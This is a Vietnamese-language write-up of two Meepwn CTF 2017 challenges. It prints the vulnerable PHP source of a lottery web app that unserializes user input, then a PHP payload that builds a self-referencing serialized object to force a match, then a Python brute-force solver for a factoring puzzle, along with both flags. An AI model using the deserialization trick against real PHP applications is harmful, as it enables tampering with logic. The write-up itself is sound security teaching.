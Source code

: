 ```yaml
---
layout: post
title:  "Meepwn CTF 2017 - Quick TSULOTT and |\\/|/-\\T|-| writeup"
date: 2017-07-27 11:08:19 +0700
categories: ctf
---
```


# TSULOTT

```
Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!! Remote: 128.199.190.23:8001
```

Truy cập vào trang, ta thấy một trang web xổ số, tìm ra 6 cặp số đúng đẻ trúng cả tỉ đồng.

<!--description-->

View source thấy có comment: `is_debug=1`, thử thêm tham số này ta nhận được source-code như sau:

```php
<body>
<style>
input[type=text] {
    width: 40%;
    padding: 12px 20px;
    margin: 8px 0;
    box-sizing: border-box;
    border: 2px solid red;
    background-color: #ebfff8;
    border-radius: 4px;
}
button[type=submit] {
    width: 10%;
    background-color: #F94848;
    color: white;
    padding: 14px 20px;
    margin: 8px 0;
    border: none;
    border-radius: 4px;
    cursor: pointer;
}
button[type=submit]:hover {
    background-color: #45a049;
}
body {
    background-image: url("money.jpg");
}
</style>
<?php
class Object
{
  var $jackpot;
  var $enter;
}
?>
<?php
include('secret.php');
if(isset($_GET['input']))  
{
  $obj = unserialize(base64_decode($_GET['input']));
  if($obj)
  {
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);
    if($obj->enter === $obj->jackpot)
    {
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>";
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>";
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>";
    }
    else
    {
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>";
    }
  }
  else
  {
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>";
  }
}
else
{
  echo "";
}
?>
<center>
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2>
<p><p><font color='white'>Input your code to win jackpot!</font><p>
<form>
          <input type="text" name="input" /><p><p>
          <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if (isset($_GET['gen_code']) && !empty($_GET['gen_code']))
{
  $temp = new Object;
  $temp->enter=$_GET['gen_code'];
  $code=base64_encode(serialize($temp));
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>';
}
?>
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1')
{
   show_source(__FILE__);
}
?>
<!-- GET is_debug=1 -->
```

Nhiệm vụ là tạo ra 1 input sau khi được decode base64 và unserialize có thuộc tính `enter` và `jackpot` giống nhau là ok.
Vì ta có thể control toàn bộ object truyền vào nên điều đầu tiên nghĩ đến là tạo object mà enter sẽ reference đến jackpot, như vậy giá trị luôn bằng nhau:

```php
class Object
{
  var $jackpot;
  var $enter;

  function __construct() {
       $this->enter = &$this->jackpot;
   }
}
$input = new Object();
echo base64_encode(serialize($input));
```
submit ta có flag: `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`

Cách khác ?: tạo object ko có cả `enter` lẫn `jackpot`, khi đó cả 2 đều null -> pass ?


# MATH

```
I hack your brain!

hack.py
```

```python
from Crypto.Util.number import *
from hashlib import md5

flag = "XXX"
assert len(flag) == 14
pad = bytes_to_long(md5(flag).digest())

hack = 0

for char in flag:
	hack+= pad
	hack*= ord(char)

print hack
#hack = 64364485357060434848865708402537097493512746702748009007197338675
#flag_to_submit = "MeePwnCTF{" + flag + "}"
```

Nhận xét:

- `hack = pad * last_char * (1 + ...)`
- hack có thể factor được bằng factordb.com
- pad sẽ nằm trong khoảng từ min_md5 đến max_md5 và là tích của các factor của hack.

Ta sẽ brute force giá trị của hack, với mỗi giá trị đó sẽ tính được tiếp `last_char` (last_char có giá trị trong khoảng từ 32 đến 128 (printable)) cứ như vậy cho đến char đầu tiên.

Source code:

```python
# -*- coding=utf-8 -*-

from Crypto.Util.number import *
from hashlib import md5
from itertools import combinations

len_flag = 14
hack = 64364485357060434848865708402537097493512746702748009007197338675
#flag_to_submit = "MeePwnCTF{" + flag + "}"
"""
3^2 · 5^2 · 7 · 107 · 487 · 607 · 28429 · 29287 · 420577267963<12> · 3680317203978923<16> · 1002528655290265069<19>
"""
raw_input()

def get_all_candidate(hack):
    # print hack
    return [chr(i) for i in range(32, 129) if hack % i == 0]

def backtrack(i, h, p, ans, deep):
    # print "="*deep, i, h, ans
    if h < 0:
        return False
    if len(ans) > len_flag:
        return False
    if h / ord(i) == p and p == bytes_to_long(md5(ans[::-1]).digest()):
        print ans[::-1]
        raw_input()
        return True
    candidate = get_all_candidate(h/ord(i) - p)
    # print "="*deep, candidate
    if not candidate:
        return False
    else:
        done = False
        for j in candidate:
            if not backtrack(j, h/ord(i) - p, p, ans + j, deep + 1):
                # print "="*deep, "Failed", j
                pass
            else:
                done = True

        return done

cs = [3, 3, 5, 5, 7, 107, 487, 607, 28429, 29287, 420577267963, 3680317203978923, 1002528655290265069]
for r in range(1, 14):
    for factors in combinations(cs, r):
        pad = 1
        for f in factors:
            pad *= f
        if pad > 340282366920938457608348813069405954094 or pad < 3922569271515906540887:
            continue
        print factors

        for k in get_all_candidate(hack):
            print "------------->"
            backtrack(k, hack, pad, k, 1)
            # raw_input()
```

Chạyy 1 lúc thì ra pad là tích của 6 factor và flag là `d0y0ul1keM@TH?`

Submit: `MeePwnCTF{d0y0ul1keM@TH?}`
